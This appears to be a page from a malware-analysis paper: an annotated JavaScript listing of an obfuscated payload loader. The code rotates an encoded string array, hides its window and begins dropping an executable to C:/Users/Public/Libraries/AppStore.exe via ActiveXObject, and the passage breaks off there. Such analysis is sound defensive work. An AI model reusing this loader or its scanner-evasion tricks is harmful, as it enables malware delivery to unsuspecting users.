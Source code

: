 \begin{lstlisting}[language=JavaScript, caption={Obfuscated payload loader.}][H]
// Data array used to execute commands
var _0x4fba = [
  'OpenTextFile', 'CreateTextFile', '245822eefsqR', '598829yCFgdo',
  'close', '302606ILGEZd', '124169YwNuaX', 'resizeTo', 'Close', 'Write',
  '718973kiZVEV', 'fromCharCode', 'C:/U' + 'sers/Publi' + 'c/Librarie' +'s/App' + 'Store.e' + 'xe',
  '108898gckcJk', '1hfvbvr', '1oCpDrk', '1TeNYee', '392776SHsKeZ'
] // split the path string to make automated scanning more difficult

// Pointless second argument for obfuscation
var _0x187d = function(_0x1d5195, _0x59a857) {
  _0x1d5195 = _0x1d5195 - 0x1dc;
  var _0x4fbae6 = _0x4fba[_0x1d5195];
  return _0x4fbae6;
}

var _0x556975 = _0x187d // Function alias

// self invoking function
// arg1: the command array _0x4fba
// arg2: the value 0x6d993 == 448915
// 
// Reorders the array elements until they are in the following order:
// [
//  fromCharCode, C:/Users/Public/Libraries/AppStore.exe,
//  108898gckcJk, 1hfvbvr, 1oCpDrk, 1TeNYee, 392776SHsKeZ,
//  OpenTextFile, CreateTextFile, 245822eefsqR, 598829yCFgdo,
//  close, 302606ILGEZd, 124169YwNuaX, resizeTo, Close, Write, 
//  718973kiZVEV
// ]
(function(_0x284e13, _0x5d8387) {
  var _0x113863 = _0x187d; // Function alias
  while (!![]) {
    try {
      var _0x589f0d = parseInt(_0x113863(0x1e2)) + -parseInt(_0x113863(0x1df)) 
        * parseInt(_0x113863(0x1e8)) + parseInt(_0x113863(0x1de))
        + parseInt(_0x113863(0x1e6)) + -parseInt(_0x113863(0x1ed))
        + -parseInt(_0x113863(0x1e1)) * -parseInt(_0x113863(0x1e5))
        + parseInt(_0x113863(0x1e9)) * parseInt(_0x113863(0x1e0));
      if (_0x589f0d === _0x5d8387) break;
      // places first element at the back of arr
      else _0x284e13['push'](_0x284e13['shift']()); 
    } catch (_0xecf87d) {
      // the error path ultimately does the same as the 
      // normal path if _0x589f0d != _0x5d8387 (second arg)
      // places first element at the back of arr
      _0x284e13['push'](_0x284e13['shift']()); 
    }
  }
  // Calls window.resizeTo(0, 0)
}(_0x4fba, 0x6d993), window[_0x556975(0x1ea)](0x0, 0x0)); 

try {
  var b = new ActiveXObject('Scripting.FileSystemObject'),
    d = _0x556975(0x1dd); // d = 'C:/Users/Public/Libraries/AppStore.exe'


\end{lstlisting}
